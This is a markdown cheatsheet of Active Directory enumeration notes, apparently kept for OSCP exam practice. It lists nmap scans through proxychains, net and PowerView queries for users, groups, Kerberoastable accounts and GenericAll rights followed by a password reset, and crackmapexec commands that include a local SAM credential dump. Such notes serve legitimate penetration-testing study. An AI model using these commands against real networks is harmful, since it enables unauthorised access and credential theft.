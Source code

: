 # AD Enumeration
## Resources
- [CME Cheatsheet](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
- [PowerView Cheatsheet](https://zflemingg1.gitbook.io/undergrad-tutorials/powerview/powerview-cheatsheet)

## Checklist

### 00. Scanning

`proxychains nmap -sT 21,22,23,25,53,80,88,135,161,389,445,8000,8080,3389,5985,3306,3307,1433,5432 -iL int_hosts.txt`


### 01. Getting Users and Groups
- What users belong to groups that allow remote management? (RDP, winRM)

#### On Windows (Depends on Domain Policies)
##### Net
- `net user /domain` all users in domain
- `net user username /domain` information on a domain user
- `net group /domain` 
- `net group groupname /domain`

##### PowerView
[Cheatsheet](https://zflemingg1.gitbook.io/undergrad-tutorials/powerview/powerview-cheatsheet)
**Test for SID you control with *genericall* on another user/group**
- `Get-ObjectAcl -Identity "robert" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
- `"S-1-5-21-890171859-3433809279-3366196753-1107", "S-1-5-21-890171859-3433809279-3366196753-1108", "S-1-5-32-562" | ConvertFrom-SID`
	- `net user username newpassword /domain`

**Kerberoastable Users**
- `Get-NetUser -Domain msp.local | Where-Object {$_.servicePrincipalName} | select name, samaccountname, serviceprincipalname`

**Computers in the domain**
- `Get-NetComputer -Properties samaccountname, samaccounttype, operatingsystem`

**List groups**
- `Get-NetGroup -Domain internal.msp.local | select name`

**Members of a group**
- `Get-DomainGroupMember "Domain Admins" -Recurse`

#### On Kali
##### SMB
###### Creds:
- `cme smb 192.168.215.104 -u 'user' -p 'PASS' -d 'oscp.exam' --users`
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --rid-brute`
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' -d 'oscp.exam' --groups`
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --local-users`
- `crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam`
 